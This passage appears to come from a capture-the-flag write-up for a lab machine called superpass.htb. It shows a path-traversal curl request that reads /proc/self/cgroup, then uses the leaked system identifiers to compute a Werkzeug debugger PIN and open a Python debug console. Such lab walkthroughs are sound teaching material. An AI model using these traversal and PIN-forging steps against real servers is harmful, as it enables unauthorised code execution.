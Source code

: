 And the first line of `/proc/self/cgroup`, from the last “/” to the end

```bash
$ curl -s --path-as-is -b $cookie http://superpass.htb/download?fn=../proc/self/cgroup
0::/system.slice/superpass.service
```

In this case `superpass.service`

Back to  `private_bits`, we will have the following.

```python
...
private_bits = [
    '345051763538',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'ed5b159560f54721827644bc9b220d00superpass.service'  # get_machine_id(), /etc/machine-id
]
...
```

Now we can run the script we got from HackTricks.

```bash
$ python3 genpin.py 
540-279-291
```

![Good PIN](images/port_80_debug_pin_good.png)

![Debug Console](images/port_80_debug_py_console.png)
